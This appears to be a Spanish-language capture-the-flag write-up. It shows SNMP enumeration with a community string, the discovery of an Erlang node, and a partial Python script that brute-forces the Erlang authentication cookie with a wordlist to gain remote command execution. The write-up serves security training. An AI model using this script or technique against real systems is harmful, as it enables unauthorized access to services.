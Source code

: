 Ahora con `snmpbulkwalk` podemos enumerar todos los datos a los que podemos acceder con esta community string.
```console
snmpbulkwalk -c manager -v2c 192.168.2.7
```

Recorriendo el archivo encontramos algo interesante.
![Write-up Image](images/Screenshot_2.png)

- **`-sname n0d3@megalang`**: Define el nombre corto (`sname`) del nodo Erlang como `n0d3@megalang`. Esto se usa para la comunicación entre nodos Erlang.
- **`-noinput`**: Impide que el nodo espere entrada del usuario.
- **`-eval "timer:sleep(infinity)"`**: Ejecuta la expresión Erlang `timer:sleep(infinity)`, que hace que el programa se quede "dormido" indefinidamente sin consumir CPU.

El caso, hemos encontrado un dominio llamado `megalang`, vamos a agregarlo al `/etc/hosts`

# Erlang Port Mapper Daemon Enumeration
Existe [este artículo en HackTricks](https://book.hacktricks.xyz/network-services-pentesting/4369-pentesting-erlang-port-mapper-daemon-epmd) que nos revela una cosa bastante interesante.

Podemos ganar ejecución remota de comandos si conseguimos la cookie de autenticación. Esta cookie se genera de forma automática pero también puede ser modificada por el usuario y poner una cookie mas fácil.

Vamos a crear un script en python para hacer fuerza bruta, primero vamos a instalar `erlang` en nuestro sistema.
```console
sudo apt-get install erlang -y
```

## Authentication Cookie Bruteforce Script
Una vez instalado, podemos utilizar este script simple en python que he creado para probar un diccionario de contraseñas.
```python
#!/usr/bin/python3
import os
import sys

NODE_NAME = "n0d3"
DOMAIN_NAME = "megalang"
DICTIONARY = "/usr/share/wordlists/rockyou.txt"

# Check if the cookie is valid
def check_cookie(cookie):
    cmd = "erl_call -c <COOKIE> -sname <NODE_NAME> -n <NODE_NAME>@<DOMAIN_NAME> -a 'erlang node []' > /dev/null 2>/dev/null".replace("<COOKIE>", cookie).replace("<NODE_NAME>", NODE_NAME).replace("<DOMAIN_NAME>", DOMAIN_NAME)
    if os.system(cmd) == 0:
        return True
    return False

def brute():
    found = False
    with open(DICTIONARY, "r") as file:
```
